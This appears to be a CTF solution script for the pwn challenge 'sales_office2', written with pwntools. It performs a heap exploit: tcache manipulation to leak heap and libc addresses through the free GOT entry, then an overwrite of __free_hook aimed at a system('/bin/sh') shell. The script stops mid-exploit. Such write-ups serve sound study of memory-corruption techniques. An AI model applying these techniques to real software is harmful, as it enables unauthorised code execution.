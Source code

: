 ## **sales_office2 | SOLVED | working : keer ， NOP，FMYY**


```plain
import sys
from pwn import *
from ctypes import *
from pwn_debug.pwn_debug import *
binary='sales_office2'
elf=ELF(binary)
pdbg=pwn_debug(binary)
pdbg.local("./libc.so")
pdbg.debug("2.29")
pdbg.remote('das.wetolink.com',28499)
pdbg.context.log_level='debug'
while True :
	# try :
		if len(sys.argv)==1 :
			io=pdbg.run("debug")
			# io=pdbg.run("local")
			libc=pdbg.libc
			one_gadgaet=[0x45216,0x4526a,0xf02a4,0xf1147]
			# one_gadgaet=[0x41602,0x41656,0xdef36]
		else :
			io=pdbg.run("remote")
			libc=ELF('./libc.so')
			# libc=ELF('../../x64libc/libc.so.6')
			# one_gadgaet=[0x4f2c5,0x4f322,0x10a38c]
			one_gadgaet=[0x45216,0x4526a,0xf02a4,0xf1147]

		def add(a,c):
			io.sendlineafter('choice:','1')
			io.sendlineafter('Please input the size of your house:',str(a))
			io.sendafter('please decorate your house:',c)
		def delete(a):
			io.sendlineafter('choice:','4')
			io.sendlineafter('index:\n',str(a))

		def show(a):
			io.sendlineafter('choice:','3')
			io.sendlineafter('index:\n',str(a))
		
		
		add(0x58,(p64(0)+p64(0x61))*5)
		add(0x28,(p64(0)+p64(0x21))*2)
		add(0x38,(p64(0)+p64(0x21))*3)
		add(0x48,(p64(0)+p64(0x21))*4)
		add(0x58,'/bin/sh\x00')
		delete(2)
		delete(1)
		delete(0)
		show(0)
		io.recvline()
		heap_base=u64(io.recvline()[:-1].ljust(8,'\x00'))-0x330
		add(0x18,p64(elf.got['free']))
		show(1)
		libc_base=u64(io.recvuntil('\x7f')[-6:]+'\x00\x00')-libc.sym['free']
		libc.address=libc_base
		system_addr=libc.sym['system']
		bin_sh_addr=libc.search('/bin/sh\x00').next()
		delete(3)
		add(0x18,p64(heap_base+0x2d0))
		delete(2)
		add(0x58,'\x00'*0x28+p64(0x31)+p64(libc.sym['__free_hook']))
```